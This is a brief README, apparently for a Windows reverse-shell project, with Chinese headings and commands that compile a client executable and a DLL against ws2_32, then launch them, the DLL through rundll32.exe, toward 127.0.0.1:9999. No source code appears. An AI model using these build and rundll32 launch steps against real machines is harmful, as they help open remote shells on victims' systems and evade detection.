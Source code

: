 # reverse_shell

## 编译

gcc.exe client.c -o client.exe -lws2_32

gcc.exe --shared client_rundll32.c -o client.dll -lws2_32

## 使用

client.exe 127.0.0.1 9999

rundll32.exe client.dll, reverse 127.0.0.1:9999
